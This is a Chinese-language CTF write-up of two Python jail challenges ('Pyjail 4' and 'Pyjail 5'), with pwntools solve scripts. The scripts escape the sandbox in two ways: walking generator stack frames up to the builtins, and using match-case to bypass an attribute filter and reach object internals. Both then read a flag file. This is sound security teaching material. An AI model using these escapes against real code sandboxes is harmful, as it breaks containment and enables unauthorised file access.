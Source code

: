 # Pyjail 4

提示提到了栈帧（Stack Frame）。往这个方向搜索，找到了这篇文章： https://pid-blog.com/article/frame-escape-pyjail

正如提示所说，python里的函数和生成器（generator）都有一个栈帧对象维护当前调用的上下文。栈帧对象中比较重要的几个属性为：
- f_back：指向上层栈帧
- f_builtins/f_globals/f_locals：当前栈帧的`builtins`、`globals`、`locals`对象

下面是一个poc，从当前生成器的栈帧回溯到上层栈帧，并获取其globals对象：
```py
q = (q.gi_frame.f_back.f_globals for _ in [1])
g = [*q][0]
```
但是不知道为什么，我无法直接运行这个poc，显示q未定义。解决办法是像文章中`ACT Team的exp`一样套一层函数
```py
from pwn import *
code="""
def get_flag():
    def f():
        yield g.gi_frame.f_back.f_back.f_back
    g = f()
    frame=[*g][0]
    print(frame.f_builtins['open']('/tmp/flag.txt').read())
get_flag()
"""
p=remote('localhost',36271)
p.recvuntil("Please enter the reverse of '")
p.sendlineafter(": ",p.recv(8)[::-1])
p.sendlineafter(": ",base64.b64encode(code.encode()))
print(p.recvline())
```

# Pyjail 5

找到了这篇文章： https://ayan0.top/2025/05/05/%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8

在`绕过 ast.Attribute 获取属性`这节介绍了利用python 3.10新语法match-case获取属性的方法：
```py
match str():
    case str(__class__=x):
        print(x==''.__class__)
```
意思是匹配str类并将`str.__class__`的值赋值给x。上述语句在ast里触发的是`match_case`而不是`ast.Attribute`。借此我们可以拿object类的`__getattribute__`函数，然后用`_frozen_importlib_external.FileLoader`读取flag
```py
from pwn import *
code="""
match object:
    case object(__getattribute__=getattribute):
        pass
subclasses=getattribute(object,"__subclasses__")
loader=subclasses()[134]
raise Exception(getattribute(loader,"get_data")("/tmp/flag.txt","/tmp/flag.txt"))
"""
p=remote('localhost',32797)
p.recvuntil("Please enter the reverse of '")
p.sendlineafter(": ",p.recv(8)[::-1])
p.sendlineafter(": ",base64.b64encode(code.encode()))
print(p.recvline()) 
```